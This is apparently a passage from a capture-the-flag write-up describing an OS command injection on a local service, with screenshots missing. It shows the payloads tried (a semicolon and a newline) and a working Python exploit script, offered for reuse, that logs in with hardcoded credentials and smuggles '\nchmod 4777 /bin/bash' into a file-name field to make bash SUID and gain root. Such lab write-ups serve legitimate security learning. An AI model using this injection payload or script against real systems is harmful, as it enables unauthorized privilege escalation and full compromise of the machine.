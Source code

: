 ### Retrieving the Token

![/assets/images/Pasted%20image%2020250131030329.png]

We retrieve the token as follows:

![/assets/images/Pasted%20image%2020250131030625.png]

### Testing the Vulnerability

Testing the vulnerability with the following payloads:

- When I tried `";"`:

![/assets/images/Pasted%20image%2020250131031359.png]

- When I tried `"\n"`, it worked:

![/assets/images/Pasted%20image%2020250131031305.png]

---

## Root Access

It's time to get root!

![/assets/images/Pasted%20image%2020250131031616.png]

---

## Exploit Script

Here’s the script that I used to exploit the OS command injection vulnerability and gain root access. You can use it too.

```python
import requests as s
import json

# Login to get the JWT token
r = s.post("http://127.0.0.1:9090/login", json={
    "username": "developer",
    "password": "bigbang"
})
print(r.text)

token = r.json()["access_token"]

# Exploit command injection to set SUID on /bin/bash
r = s.post("http://127.0.0.1:9090/command", headers={
    "Authorization": "Bearer " + token
}, json={
    "command": "send_image",
    "output_file": "\nchmod 4777 /bin/bash"
})
print(r.text)
```

With this, we’ve successfully gained root access on the victim machine.

---





